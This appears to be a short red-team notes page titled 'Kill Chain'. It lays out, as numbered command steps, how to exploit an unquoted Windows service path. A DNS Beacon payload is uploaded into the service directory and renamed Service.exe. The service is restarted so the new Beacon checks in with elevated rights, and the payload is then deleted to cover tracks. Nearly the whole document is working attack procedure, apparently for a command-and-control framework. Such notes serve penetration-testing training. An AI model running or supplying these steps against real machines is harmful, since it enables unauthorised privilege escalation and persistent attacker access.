 # Kill Chain

## Unquoted Service Path <a href="#unquoted-service-path" id="unquoted-service-path"></a>

1. Verify the binary path of the service.
   1. `sc_qc BadWindowsService`
2. Verify the permissions of the target directory.
   1. `cacls "C:\Program Files\Bad Windows Service"`
3. Change Beacon's current working directory.
   1. `cd C:\Program Files\Bad Windows Service`
4. Upload a DNS Beacon service payload.
   1. `upload C:\Payloads\dns_x64.svc.exe`
5. Rename the payload to activate the hijack.
   1. `mv dns_x64.svc.exe Service.exe`
6.  Restart the service.

    1. `sc_stop BadWindowsService`
    2. `sc_start BadWindowsService`

    The new Beacon should appear immediately.
7. Interact with the new Beacon.
   1. `Run a checkin command.`
8. Delete the service payload.
   1. `rm Service.exe`

&#x20;

&#x20;
